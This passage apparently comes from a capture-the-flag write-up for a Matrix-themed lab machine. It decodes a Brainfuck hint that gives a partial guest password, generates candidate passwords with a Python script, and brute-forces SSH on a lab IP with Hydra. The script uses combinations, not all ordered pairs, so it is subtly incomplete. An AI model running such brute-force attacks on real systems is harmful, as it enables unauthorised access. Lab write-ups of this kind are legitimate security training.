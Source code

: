 ```plaintext
+++++ ++++[ ->--- ----- -<]>- ----- --.<+ +++++ +++[- >++++ +++++ <]>++
+++++ +.<++ +[->- --<]> -.+++ +++.- --.<+ +++++ +++[- >---- ----- <]>-.
<++++ ++++[ ->+++ +++++ <]>++ +++++ +++++ .++++ +++++ .<+++ +[->- ---<]
>--.+ +++++ ++.<+ +++++ ++[-> ----- ---<] >---- ----- --.<+ +++++ ++[->
+++++ +++<] >+.<+ ++[-> +++<] >++++ .<+++ [->-- -<]>- .<+++ +++++ [->--
----- -<]>- ---.< +++++ +++[- >++++ ++++< ]>+++ +++.+ ++.++ +++.< +++[-
>---< ]>-.< +++++ +++[- >---- ----< ]>--- -.<++ +++++ +[->+ +++++ ++<]>
+++.< +++[- >+++< ]>+++ .+++. .<+++ [->-- -<]>- ---.- -.<++ ++[-> ++++<
]>+.< +++++ ++++[ ->--- ----- -<]>- --.<+ +++++ +++[- >++++ +++++ <]>++
.+.-- .---- ----- .++++ +.--- ----. <++++ ++++[ ->--- ----- <]>-- -----
.<+++ +++++ [->++ +++++ +<]>+ +++++ +++++ ++++. ----- ----. <++++ ++++[
->--- ----- <]>-- ----. <++++ ++++[ ->+++ +++++ <]>++ +++++ +++++ ++++.
<+++[ ->--- <]>-- ----. <++++ [->++ ++<]> ++..+ +++.- ----- --.++ +.<++
+[->- --<]> ----- .<+++ ++++[ ->--- ----< ]>--- --.<+ ++++[ ->--- --<]>
----- ---.- --.<
```

I searched online for hints on what this could be. Quickly I found that this is a language called BrainFuck. With an online Brainfuck decoder I was able to translate the file. It said, "You can enter into matrix as guest, with password k1ll0rXX Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password". These are clear instructions to log in via SSH. I wrote a short Python script to run through all combinations of letters and numbers.

```python
import itertools

password_incomplete = "k1ll0r"
characters = ["a", "b", "c", "d", 
              "e", "f", "g", "h", 
              "i", "j", "k", "l", 
              "m", "n", "o", "p", 
              "q", "r", "s", "t", 
              "u", "v", "w", "x", 
              "y", "z", "1", "2", 
              "3", "4", "5", "6", 
              "7", "8", "9", "0"]

for i in range(len(characters)+1):
    for j in itertools.combinations(characters, i):
        password = "".join(j)
        if len(password) <= 2:
            print(password_incomplete + password)
```

I piped the output of the script to passwords.txt

```bash
python ./passwords.py > passwords.txt
```

And used the created passwords.txt as a list to crack the password for the guest user with Hydra.

```bash
hydra -l guest -P passwords.txt 10.38.1.112 ssh
```
